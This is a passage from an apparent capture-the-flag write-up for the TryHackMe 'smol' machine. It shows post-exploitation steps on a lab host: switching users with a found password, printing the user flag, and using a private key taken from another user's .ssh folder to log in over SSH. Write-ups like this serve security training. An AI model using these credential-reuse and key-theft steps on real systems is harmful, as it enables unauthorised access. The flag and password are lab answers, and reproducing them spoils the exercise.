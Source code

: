 -> I tried logging into ssh but was unsuccessful. Instead, I just switched user's to diego on the reverse shell

```
www-data@smol:/$ su diego
su diego
Password: sandiegocalifornia

diego@smol:/$ whoami
whoami
diego
```

-> Going through diego's home directory, we were able to find the first flag, user.txt

```
diego@smol:/home$ cd diego
cd diego
diego@smol:~$ ls
ls
user.txt
diego@smol:~$ cat user.txt
cat user.txt
45edaec653ff9ee06236b7ce72b86963
```

-> Now, to privilege escalate, let's first run ```sudo -l```

```
diego@smol:~$ sudo -l
sudo -l
[sudo] password for diego: sandiegocalifornia

Sorry, user diego may not run sudo on smol.
```

-> Uh oh.
-> Going through other user's home directories, we find a rsa_pub key in think's /.ssh folder. We can use this to get a ssh connection.

```
┌──(kali㉿kali)-[~/Downloads/THM/smol_THM]
└─$ ssh -i id_rsa think@10.10.133.67 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 25 Jun 2025 12:56:44 PM UTC

  System load:  0.32              Processes:             149
  Usage of /:   56.9% of 9.75GB   Users logged in:       0
  Memory usage: 17%               IPv4 address for ens5: 10.10.133.67
  Swap usage:   0%

  => There are 2 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

162 updates can be applied immediately.
125 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```